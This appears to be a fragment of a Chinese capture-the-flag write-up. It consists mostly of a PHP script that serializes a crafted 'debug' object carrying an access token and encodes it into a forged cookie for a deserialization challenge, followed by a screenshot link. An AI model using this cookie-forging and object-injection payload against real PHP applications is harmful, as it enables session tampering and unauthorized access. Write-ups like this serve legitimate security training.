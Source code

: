 ```php
<?php

function cookie_encode($str) {
    $key = base64_encode($str);
    $key = bin2hex($key);
    $arr = str_split($key, 2);
    $cipher = '';
    foreach($arr as $value) {
        $num = hexdec($value);
        $num = $num + 240;
        $cipher = $cipher.'&'.dechex($num);
    }
    return $cipher;
}

class session{
    public $choose = 1;
    public $id = 0;
    public $username = "";
}

class debug
{
    public $choose = "2";
    public $forbidden = "";
    public $access_token = "";
    public $ob = NULL;
    public $id = 2;
    public $username = "debuger";
    public $funny = 'O:5:"debug":4:{s:6:"choose";s:1:"2";s:9:"forbidden";s:0:"";s:12:"access_token";s:10:"3ecReK&key";s:2:"ob";N;}';

    public function __construct()
    {
        $this->forbidden = unserialize('O:5:"debug":4:{s:6:"choose";s:1:"2";s:9:"forbidden";s:0:"";s:12:"access_token";s:0:"";s:2:"ob";N;}');
    }
}

$d = new debug();
//echo serialize($d);
echo urlencode(cookie_encode(serialize($d)));

?>

```

![img11](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img11.png)

真长，嗯
